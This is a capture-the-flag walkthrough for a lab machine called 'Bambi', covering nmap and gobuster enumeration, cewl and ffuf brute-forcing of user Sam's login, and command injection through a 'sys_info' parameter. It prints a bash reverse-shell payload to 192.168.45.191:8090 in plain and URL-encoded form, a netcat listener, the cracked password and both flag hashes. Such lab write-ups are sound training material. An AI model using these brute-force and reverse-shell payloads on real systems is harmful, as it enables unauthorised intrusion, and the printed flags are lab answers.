# **BAMBI**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.118.121
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.118.121 -w /usr/share/wordlists/dirb/common.txt
```
 

 


## **Use custom wordlist to bruteforce password**

- Use Custom word list generator to bruteforce password.

``
cewl -d 2 -m 5 -w bambi_custom_passwords.txt http://192.168.118.121
``
 

- Now use thise custom word list to bruteforce password for user - Sam.

```
ffuf -w /home/amrityam/kali/offsec/playground/bambi_custom_passwords.txt -u http://192.168.118.121/dev/index.php -X POST -d 'username=Sam&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'
```

 

 

Now you should able to login with password - ANGELES for user - Sam and in admin section you can find the local.txt flag.

 

### local.txt flag: 6b5a4ff997be8e8e9f7af7598046b39c

---

## **PROOF.TXT**

## **Intercept the System Info Page Post request**
   
 

- Here sys_info paramerer is vulnerable to command injection, here you can try ls or whoami command to verify it.

 

- Now Check if bash exists by using command `which bash`

 

- Now try a bash reverse shell.

Payload:
```
;bash -c 'bash -i >& /dev/tcp/192.168.45.191/8090 0>&1'
```

- Now encode the payload.
```
;bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.191/8090%200%3E%261%27
```

Full Payload:
```
sys_info=ls;bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.191/8090%200%3E%261%27&sys_tracks=%2Fvar%2Fwww
```

 


- To obtain a revershell, set up a Netcat listener on our kali linux machine on port 8090 
```
nc -nlvp 8090
```

- Now you can get the reverse shell. There is a proof.txt file is present. Now read that flag.   




   
### proof.txt flag: 3ab8fab58993ff44dd0f2f8fde04b2e8

---
